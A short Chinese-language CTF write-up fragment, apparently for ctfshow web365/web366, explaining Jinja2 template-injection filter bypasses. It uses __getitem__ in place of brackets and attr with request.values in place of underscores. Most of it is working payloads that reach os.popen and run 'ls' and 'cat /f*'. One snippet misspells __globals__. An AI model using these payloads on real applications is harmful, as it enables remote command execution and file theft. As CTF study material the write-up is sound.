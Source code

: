 ### getitem()

```markdown
__golbals__[123]
 
__golbals__.__getitem__(123)
```

这两个 是没有区别的

所以遇到了中括号我们可以运用这个方式来做

```handlebars
?name={{().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(132).__init__.__globals__.popen(request.values.a).read()}}&a=ls
 
 
?name={{().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(132).__init__.__globals__.popen(request.values.a).read()}}&a=cat /f*
```

## web366   【过滤下划线】

这里接着上面的内容过滤了下划线

### attr

```cobol
().__class__
 
 
()|attr('__class__') 这两个是一样的
 
 
但是这个题目过滤了_ 
 
我们可以使用request来绕过
 
 
(lipsum|attr(request.values.a))   &a=__class__
```

直接构造payload

```handlebars
{{lipsum|attr(request.values.b)}}&b=__globals__
 
 
{{(lipsum|attr(request.values.b)).os}}&b=__globals__
 
 
 
{{(lipsum|attr(request.values.b)).os.popen(request.values.c).read()}}&b=__globals__&c=ls
 
{{(lipsum|attr(request.values.b)).os.popen(request.values.c).read()}}&b=__globals__&c=cat /f*
```
